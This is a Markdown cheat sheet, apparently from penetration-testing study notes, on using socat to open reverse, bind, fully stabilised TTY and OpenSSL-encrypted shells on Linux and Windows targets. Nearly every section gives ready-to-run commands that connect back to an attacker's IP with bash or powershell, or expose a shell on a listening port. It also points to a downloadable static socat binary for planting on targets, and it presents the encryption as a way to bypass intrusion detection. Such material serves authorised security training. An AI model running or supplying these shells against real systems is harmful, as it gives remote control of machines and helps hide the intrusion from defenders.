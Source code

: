 # Socat

### Introduction

Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

1. The syntax is more difficult
2. Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

The easiest way to think about socat is as a connector between two points, it can be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points



### Reverse Shells

Here's the syntax for a basic reverse shell listener in socat: `socat TCP-L:<port> -`

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>.`

On Windows we would use this command to connect back: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output. This is the equivalent command for a Linux Target: `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`



### Bind Shells

On a Linux target we would use the following command: `socat TCP-L:<PORT> EXEC:"bash -li"`

On a Windows target we would use this command for our listener: `socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener. `socat TCP:<TARGET-IP>:<TARGET-PORT> -`



### Fully Stable Linux tty Reverse Shell

This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

Let's break this command down into its two parts.

1. As usual, we're connecting two points together. In this case those points are a listening port, and a file.
2. Specifically, we are allocating a new tty, and setting the echo to be zero. This is approximately equivalent to using the `Ctrl + Z, stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and allocating a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true), which can then be executed as normal.

The special command is as follows: `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

Let's break it down.

* The first part is easy -- we're linking up with the listener running on our own machine.
* The second part of the command creates an interactive bash session with `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:
  * pty, allocates a pseudoterminal on the target -- part of the stabilisation process
  * stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
  * sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
  * setsid, creates the process in a new session
  * sane, stabilises the terminal, attempting to "normalise" it.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.



### Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Encrypted shells cannot be spied on unless you have the decryption key, and are often able to **bypass an IDS** as a result.

1. We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
   * `openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
   * This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
2. We then need to merge the two created files into a single `.pem` file:
   * `cat shell.key shell.crt > shell.pem`

#### Reverse Shell

1. Now, when we set up our reverse shell listener, we use:
   * `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`
   * This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.
2. To connect back, we would use:
   * `socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

#### Bind Shell

1. . For Bind Shell, On Target:
   * `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
2. Attacker:
   * `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

**Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required**

This technique will also work with the special, Linux-only TTY shell covered before.

1. Listener

```bash
socat OPENSSL-LISTEN:<port>,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```

2. Connecter

```bash
socat OPENSSL:<ip>:<port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

